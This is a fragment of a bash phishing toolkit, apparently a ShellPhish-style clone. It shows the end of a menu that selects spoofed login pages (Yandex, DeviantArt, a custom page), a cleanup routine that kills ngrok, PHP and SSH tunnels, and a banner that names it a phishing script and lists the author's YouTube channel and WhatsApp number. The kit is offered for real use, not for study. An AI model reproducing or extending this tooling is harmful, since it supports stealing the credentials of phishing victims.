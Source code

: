 elif [[ $option == 31 ]]; then
server="yandex"
start1

elif [[ $option == 32 ]]; then
server="devianart"
start1

elif [[ $option == 33 ]]; then
server="create"
createpage
start1

elif [[ $option == 99 ]]; then
exit 1

else
printf "\e[1;93m [!] Invalid option!\e[0m\n"
sleep 1
clear
menu
fi
}

stop() {

checkngrok=$(ps aux | grep -o "ngrok" | head -n1)
checkphp=$(ps aux | grep -o "php" | head -n1)
checkssh=$(ps aux | grep -o "ssh" | head -n1)
if [[ $checkngrok == *'ngrok'* ]]; then
pkill -f -2 ngrok > /dev/null 2>&1
killall -2 ngrok > /dev/null 2>&1
fi
if [[ $checkphp == *'php'* ]]; then
pkill -f -2 php > /dev/null 2>&1
killall -2 php > /dev/null 2>&1
fi
if [[ $checkssh == *'ssh'* ]]; then
pkill -f -2 ssh > /dev/null 2>&1
killall ssh > /dev/null 2>&1
fi
if [[ -e sendlink ]]; then
rm -rf sendlink
fi



}

banner() {

printf "\e[1;72m THIS PHISHING SCRIPT IS CODED BY Asad \e[0m\n"
printf "\e[1;72m SHABIR BALOCH A PAKISTANI HACKER \e[0m\n"
printf "\e[1;72m SHABIR BALOCH YOUTUBE CHANNEL NAME = B4 BALOCH M4 MASTER \e[0m\n"
printf "\e[1;72m Whatsapp Number= +923232132362 \e[0m\n"
printf "\e[1;72m THIS IS A BASH SCRIPT CODED BY Asad \e[0m\n"
printf "\e[1;72m PAK HACKER \e[0m\n"
printf "\n"
printf "\e[1;93m       .:.:.\e[0m\e[1;72m Phishing Tool coded by: Asad \e[0m\e[1;93m.:.:.\e[0m\n"
printf "\n"
}
